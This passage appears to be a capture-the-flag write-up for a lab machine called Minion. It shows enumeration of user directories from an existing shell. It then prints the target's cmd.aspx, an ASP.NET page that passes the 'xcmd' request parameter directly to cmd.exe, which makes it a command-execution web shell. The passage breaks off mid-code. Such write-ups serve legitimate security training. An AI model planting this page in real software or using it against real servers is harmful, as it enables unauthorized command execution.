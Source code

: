 ## Execution as decoder.MINION

### Enumeration

#### Users / Home Dirs

The only user that looks to be a real account is decoder.MINION, making it the likely owner of `user.txt`:

```

Minion> ls \users\

    Directory: C:\users

Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----         8/10/2017   9:43 AM            .NET v2.0                         
d----         8/10/2017   9:43 AM            .NET v2.0 Classic                 
d----         8/10/2017   9:32 AM            .NET v4.5                         
d----         8/10/2017   9:32 AM            .NET v4.5 Classic                 
d----         9/22/2017  11:33 AM            Administrator                     
d----         8/10/2017   9:43 AM            Classic .NET AppPool              
d----         9/22/2017  11:36 AM            decoder.MINION                    
d-r--         8/22/2013   8:39 AM            Public  

```

I can’t access anything in that directory or the Administrator directory from this shell.

#### Web

I can check out the web directories. `C:\inetpub\wwwroot\cmd.aspx` shows how it runs a command:

```

<%@ Page Language="VB" Debug="true" %>
<%@ import Namespace="system.IO" %>
<%@ import Namespace="System.Diagnostics" %>

<script runat="server">
Function RunCmd(command)
  Dim res as integer
  Dim myProcess As New Process()
  Dim myProcessStartInfo As New ProcessStartInfo("c:\windows\system32\cmd.exe")
  myProcessStartInfo.UseShellExecute = false
  myProcessStartInfo.RedirectStandardOutput = true
  myProcess.StartInfo = myProcessStartInfo
  myProcessStartInfo.Arguments="/c " + command
  myProcess.Start()
  Dim myStreamReader As StreamReader = myProcess.StandardOutput
  Dim myString As String = myStreamReader.Readtoend()
  res=myProcess.ExitCode
  myProcess.Close()

  RunCmd= res
End Function
</script>

<html>
<body>
<%
dim t as integer
if request("xcmd") <> "" then
   t=RunCmd(request("xcmd"))
```